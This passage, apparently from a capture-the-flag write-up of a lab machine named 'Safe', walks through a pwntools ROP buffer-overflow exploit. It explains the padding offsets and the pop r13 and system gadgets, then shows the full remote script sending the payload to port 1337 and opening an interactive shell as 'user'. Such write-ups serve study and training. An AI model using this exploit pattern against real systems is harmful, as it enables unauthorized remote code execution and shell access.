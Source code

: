 ```
null = p64(0x0)
system = p64(0x40116e)
bin_sh = "/bin/sh\x00".encode()
test = p64(0x401152)

#p.recvuntil('What do you want me to echo back?')
p.sendline(junk + bin_sh + pop_r13 + system + null + null + test)
p.interactive()
```
We set junk to 112 and not 120 because the execution points to what you inject in memory after 120:  
* 0-112 is the 'legal' buffer
* 112-120 overwrites the RBP
* 120 and on overwrites RSP
As stated previously when main() function comes to RET, it pops and executes functions queued on the stack, so, what's after 120.
Now we can edit our exploit to attach it to a remote source and get a shell:
```
from pwn import *

context(terminal=['tmux','new-window']) # Default terminal used by pwnlib.util.misc.run_in_new_terminal().
                         # Can be a string or an iterable of strings.
                         # In the latter case the first entry is the terminal and the rest are default arguments.
#p = gdb.debug('./myapp', 'b main')
p = remote('10.10.10.147', 1337)
context(os='linux', arch='amd64')

junk = ("A"*112).encode() # Converting string to bytes
pop_r13 = p64(0x401206)# ropper --search "pop r13" -> 0x0000000000401206: pop r13; pop r14; pop r15; ret;
                       # POP removes the element from the top of the hardware-supported stack into the specified operand
                       # RSP -> R13
                       # if we write system address to R13 then test() will return to R13
null = p64(0x0)
system = p64(0x40116e)
bin_sh = "/bin/sh\x00".encode()
test = p64(0x401152)

#p.recvuntil('What do you want me to echo back?')
p.sendline(junk + bin_sh + pop_r13 + system + null + null + test)
p.interactive()
```
and we get a shell as 'user':   
```
[root@kali Safe ]$ python3 exploit.py
[+] Opening connection to 10.10.10.147 on port 1337: Done
[*] Switching to interactive mode
 04:46:20 up 1 day,  1:46,  0 users,  load average: 0.00, 0.00, 0.00
$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
```
